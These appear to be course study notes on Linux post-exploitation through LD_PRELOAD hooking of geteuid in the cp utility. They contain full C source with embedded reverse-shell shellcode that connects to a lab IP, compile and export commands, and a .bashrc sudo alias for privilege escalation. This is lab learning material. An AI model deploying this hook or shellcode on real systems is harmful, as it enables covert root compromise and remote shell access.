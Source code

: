 ## LD_PRELOAD
[LD_PRELOAD](https://man7.org/linux/man-pages/man8/ld.so.8.html) is an environment variable which, when defined on the system, forces the [dynamic linking loader](https://en.wikipedia.org/wiki/Dynamic_linker) to preload a particular shared library before any others. As a result, functions that are defined in this library are used before any with the same [method signature](https://en.wikipedia.org/wiki/Type_signature#Method_signature) that are defined in other libraries.
Methods we define in a library loaded by _LD_PRELOAD_ will override methods loaded later on.
Overriding methods in this way is a technique known as function [hooking]( Overriding methods in this way is a technique known as function hooking.[4](https://portal.offensive-security.com/courses/pen-300/books-and-videos/modal/modules/linux-post-exploitation/shared-libraries/exploitation-via-ld_preload#fn4))

We will be targeting the cp utility used to copy files on the linux system, the utility is often used in the sudo context and thus is an attractive target.
We can run _ltrace_ on the cp command to get a list of library function calls it uses during normal operation.

We will hook the call to geteuid as it seems to only be called once during the application run, which limits how frequently our code will be executed.
In our library, we'll simply redefine the _geteuid_ function.

Our code will be as follows:
1. Declaration of various C libraries.
2. Declaration of our variable payload
3. Define our _geteuid_ function. {no parameters (void) and returns a value of _uid_t_, which in this case is simply an integer.}
4. Define a pointer, which we'll use to point to the old _geteuid_ function(provides us access to the original function so that we can call it later on.)
5. Use the [_dlsym_](https://linux.die.net/man/3/dlsym) function to get the memory address of the original version of the _geteuid_ function(finds a symbol for a dynamic library in memory)
6. Call the _dlsym_ function with the name of geteuid symbol.
7. Create a new process for our shell using fork method.
8. The final two lines provide a meaningless return value

The code will we as follows:
```C
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x05\x39\xc0\xa8"
"\x76\x03\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

uid_t geteuid(void)
{

	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");

	if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC)) 
                {
                        perror("mprotect");
                        return -1;
                }
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...\n");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...\n");
        return 3;
}



```

The code within the _fork_ branch checks that the shellcode resides on an executable memory page before executing it. The reason for this additional step is that the -f PIC compilation flag relocates our shellcode to the library _.data_ section in order to make it position independent.
The code gets the size of a memory page so it knows how much memory to access. It then changes the page of memory that contains our shellcode and makes it executable using _mprotect_.
It does this by setting its access properties to _PROT_READ_ and _PROT_EXEC_, which makes our code readable and executable.
If changing the memory permissions fails, the program will exit with a return code of "-1".

Compiling the code with the following lines:
```sh
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

Changing the export path:
```sh
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

and executing the binary, we get a shell.

As a final step, for privilege escalation, we can add the following to .bashrc file to run the binary in sudo context if sudo is being used.
```sh
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```

![](../../../Screenshots/ldpl-hs.png)